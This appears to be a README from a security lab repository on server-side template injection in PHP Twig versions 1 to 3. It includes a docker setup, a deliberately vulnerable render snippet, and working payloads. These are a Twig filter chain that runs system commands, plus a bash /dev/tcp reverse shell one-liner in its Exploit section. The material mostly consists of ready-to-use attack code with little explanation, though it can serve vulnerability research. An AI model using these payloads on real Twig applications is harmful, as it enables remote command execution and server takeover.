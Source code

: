 # PHP Twig 3.X, 2.X, 1.X

## Installation

```sh
$ docker run --rm -it ovotreeovo/php-twig
# php /var/www/html/1.php "{{ [\"id\"]|map('system')|join(',') }}"
```

## Vulnerable Source

### current Twig version: v1.44.1
```php
require_once '/path/to/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader([
    'index' => 'Hello <code-here>!',
]);
$twig = new \Twig\Environment($loader);

echo $twig->render('index');
```

### Switch to other version:

```bash
# php /var/www/html/composer.phar require "twig/twig:^2.0"
```

## Exploit

```php
["/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'"]|map('system')|join(',')
```

## Reference

- https://xz.aliyun.com/t/7518
- https://twig.symfony.com/doc/3.x/intro.html#installation

